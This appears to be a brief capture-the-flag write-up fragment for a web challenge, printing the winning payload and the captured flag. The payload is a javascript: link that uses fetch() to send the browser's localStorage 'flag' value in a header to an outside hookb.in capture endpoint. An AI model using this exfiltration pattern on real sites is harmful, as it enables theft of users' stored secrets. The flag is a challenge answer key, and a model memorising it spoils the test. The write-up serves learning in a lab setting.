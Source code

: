 ## Flag

The payload to the actual challenge site:

```python
link = "javascript:fetch('https://hookb.in/ggg2p92p2XiG7Voo7z7P',{headers:{'Content-Type':window.localStorage.getItem('flag')}})"
```

Hookbin:



![](./flag.png)



`rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`
